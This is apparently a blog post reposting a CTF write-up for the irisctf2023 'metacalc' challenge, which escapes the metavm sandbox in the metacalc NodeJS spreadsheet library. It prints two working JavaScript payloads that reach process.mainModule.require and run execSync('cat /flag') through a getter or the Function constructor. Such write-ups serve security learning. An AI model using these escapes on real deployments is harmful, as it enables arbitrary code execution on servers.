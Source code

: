 # 题目描述

I ran into this awesome NodeJS spreadsheet library using some custom sandboxing so I tried it out. I even hardened it a bit more. Nothing could ever go wrong

# 解决方案

作者提供的Writeup不是很了解，关键是绕过metacalc的防护机制，但是看metacalc的源码根本不知道如何绕过，以后需要加强JavaScript的学习，参考链接如下：

- https://github.com/Seraphin-/ctf/blob/master/irisctf2023/metacalc.md

具体内容如下：

The challenge is a sandbox escape using the latest version of an obscure spreadsheet library, [metacalc](https://github.com/metarhia/metacalc). The library seems to be part of the [Metarhia](https://metarhia.com/) stack, and uses its own VM sanboxing library, [metavm](https://github.com/metarhia/metavm). The challenge isn't just on metavm because then it would really be too easy as copying a nodejs.vm sandbox escape from Google might work - the metacalc library has a bit more hardening applied.

As the description mentions, the library is further modified with this diff:
```diff
--- sheet.o.js  2022-08-11 17:32:27.803553441 -0700
+++ sheet.js    2022-08-11 17:38:51.821472938 -0700
@@ -7,13 +7,16 @@
   new Proxy(target, {
     get: (target, prop) => {
       if (prop === 'constructor') return null;
+      if (prop === '__proto__') return null;
       const value = target[prop];
       if (typeof value === 'number') return value;
       return wrap(value);
     },
   });
 
-const math = wrap(Math);
+// Math has too much of an attack surface :(
+const SlightlyLessUsefulMath = new Object();
+const math = wrap(SlightlyLessUsefulMath);
 
 const getValue = (target, prop) => {
   if (prop === 'Math') return math;
```

The app itself just runs the library and puts your input into a cell.
```js
const { Sheet } = require('metacalc');
const readline = require('readline');

const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
const sheet = new Sheet();

rl.question('I will add 1 to your input?? ', input => {
    sheet.cells["A1"] = 1;
    sheet.cells["A2"] = input;
    sheet.cells["A3"] = "=A1+A2";
    console.log(sheet.values["A3"]);
    process.exit(0);
});
```

I expected multiple solutions for this and people didn't dissapoint - I don't think anyone else used the same solution as me.

The intended solution takes advantage of this line in the proxy:
```js
       const value = target[prop];
```

This lookup is done _outside_ the vm, and triggering the lookup can actually result in a function call if the prop has a getter! We can use that to get outside the vm and then do a standard `execSync('cat /flag')`.
```js
=(function(){({}).constructor.defineProperty(Math, "a", {get: function() {const require = this.constructor.constructor('return process.mainModule.require')(); const flag = require('child_process').execSync('cat /flag').toString(); require('console').log(flag); return 1}})})()||Math.a
```
The `({}).constructor.` gets the `Object` class, and defineProperty is used to define a property `a` on Math that has a getter. The `||Math.a` triggets a call on the getter.

I also came up with this simpler escape, which is why the Math is replaced with a new Object. I forgot to null the prototype for that object, too, though :(
```js
=(function(){ const require = ({}).constructor.getPrototypeOf(Math.abs).constructor('return process.mainModule.require')(); const flag = require('child_process').execSync('cat /flag').toString(); require('console').log(flag); return 1})()
```

```
irisctf{be_careful_of_implicit_calls}
```